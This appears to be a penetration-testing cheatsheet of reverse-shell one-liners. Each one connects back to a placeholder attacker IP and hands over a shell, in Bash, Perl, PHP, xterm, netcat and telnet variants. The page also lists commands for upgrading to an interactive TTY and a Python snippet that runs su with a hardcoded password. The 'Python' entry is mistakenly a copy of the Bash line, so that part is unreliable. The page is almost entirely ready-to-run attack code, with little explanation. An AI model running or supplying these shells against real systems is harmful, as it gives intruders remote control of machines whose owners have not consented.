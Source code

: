 ```yaml
---
title: Reverse Shell Cheatsheet
date: 2024-1-1 
categories: [Notes, Pentest]
tags: [reverse shell,xterm,bash,python,php,netcat,perl,interactive,tty,shell]
---
```


# Gaining Access

## Reverse Shell One-Liners

> Bash

```bash
bash -i >& /dev/tcp/<IP-address>/8080 0>&1
```

> Python

```bash
bash -i >& /dev/tcp/<IP-address>/8080 0>&1
```

> Perl

```bash
perl -e 'use Socket;$i="<IP-address>";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

> PHP

```bash
php -r '$sock=fsockopen("<IP-address>",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

> XTerm

```bash
xterm -display <IP-address>:1
```

> Netcat without -e #1

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <IP-address> 1234 > /tmp/f
```

> Netcat without -e #2

```bash
nc localhost 443 | /bin/sh | nc localhost 444
```

```bash
telnet localhost 443 | /bin/sh | telnet localhost 444
```

## Interactive TTY Shells

```bash
/usr/bin/expect sh
```

```bash
python -c ‘import pty; pty.spawn(“/bin/sh”)’
```

> Execute one command with `su` as another user if you do not have access to the shell. Credit to g0blin.co.uk & Mantvydas Baranauskas

```bash
python -c 'import pty,subprocess,os,time;(master,slave)=pty.openpty();p=subprocess.Popen(["/bin/su","-c","id","bynarr"],stdin=slave,stdout=slave,stderr=slave);os.read(master,1024);os.write(master,"fruity\n");time.sleep(0.1);print os.read(master,1024);'
```